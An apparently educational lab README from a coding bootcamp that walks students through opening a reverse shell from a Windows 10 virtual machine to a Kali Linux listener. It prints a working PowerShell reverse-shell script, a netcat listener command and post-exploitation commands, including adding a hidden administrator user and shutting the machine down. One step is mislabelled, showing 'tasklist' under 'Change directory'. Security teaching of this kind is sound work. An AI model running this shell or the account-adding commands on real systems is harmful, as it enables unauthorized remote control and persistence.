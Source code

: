 <!-- hide -->
# Windows CMD Commands for Remote Hacking

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/commands-for-remote-hacking/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![Twitter Follow](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*These instructions are also [available in Spanish](https://github.com/breatheco-de/reverse-shell-and-remote-hacking/blob/main/README.es.md)*

### Before you start...

> We need you! These exercises are created and maintained in collaboration with people like you. If you find any errors or typos, please contribute and/or report them.
<!-- endhide -->

<onlyfor saas="false" withBanner="false">

## 🌱 How to Start This Project

This exercise aims to utilize Windows CMD commands in the context of a remote connection, simulating a remote hacking attack. This tutorial will help you establish a reverse shell from a Windows 10 machine to a Kali Linux machine, executing a series of commands to gather critical information from the Windows system. All of this will be done in a controlled environment, using virtual machines, and will focus on the post-exploitation phase of an ethical attack.

### Requirements

- **Attacker Machine (Kali Linux)**:
  - Required Software: `Netcat` (pre-installed on Kali Linux)
  
- **Target Machine (Windows 10)**:
  - Access to **PowerShell** and permission to run scripts

> Both virtual machines must be configured with the bridged adapter option so they can communicate over the local network.

</onlyfor>

## 📝 Instructions

1. Network Configuration: Verify that both machines can communicate using the ping command from Kali to Windows and vice versa.

2. Establish the connection with Netcat on the Kali Linux machine (Attacker). Open a terminal and listen on a specific port (in this case, port 4444) using Netcat:

```bash
nc -lvnp 4444
```

This will set up a listener on the Kali machine, waiting for a connection from Windows.

3. Open PowerShell on the Windows 10 machine (Target) and execute the following script to establish the reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

**Note**: Remember to replace "IP-of-Kali" with the IP address of your Kali Linux machine.

![imagen](assets/powershell.png)


With the script running on Windows, you can now send commands from Kali through the Netcat session you initiated. Here are some useful commands to interact with the Windows machine:

![imagen 1](assets/listening_dir.png)

### Basic Windows Commands:

- **List files in the current directory**:

```bash
dir
```
- **Get system information**:
```bash
systeminfo
```

![imagen 2](assets/systeminfo.png)

- **Get network configuration:**:
```bash
ipconfig
```
![imagen 3](assets/ipconfig.png)

- **List running processes**:
```bash
tasklist
```
### Commands for Detailed Information:

![imagen 4](assets/hostname.png)

- **View system information**:
    ```bash
    hostname
    ```
- **List users on the system**:
    ```bash
    net user
    ```
    
- **View active network connections:**:
    ```bash
    netstat -an
    ```

### Commands for Navigating the File System:

- **Change directory:**:
    ```bash
    tasklist
    ```
- **Create a file or directory:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Administrative Commands (if you have privileges):

- **Shut down or restart the system:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Add an administrator user:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Research more commands to practice..

### End the Session
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)

## Contributors

Thanks to these amazing people ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr), contribution: (bug reports) 🐛

This project follows the [all-contributors](https://github.com/kentcdodds/all-contributors) specification. Contributions of any kind are welcome!

This and other exercises are used to [learn to code](https://4geeksacademy.com/us/learn-to-code) by students at 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) led by [Alejandro Sánchez](https://twitter.com/alesanchezr) and many other contributors. Learn more about our [Programming Courses](https://4geeksacademy.com/us/programming-courses) to become a [Full Stack Developer](https://4geeksacademy.com/us/coding-bootcamps/full-stack-developer), or our [Data Science Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/data-science-machine-learning-bootcamp). You can also dive into cybersecurity with our [Cybersecurity Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/cybersecurity-bootcamp).

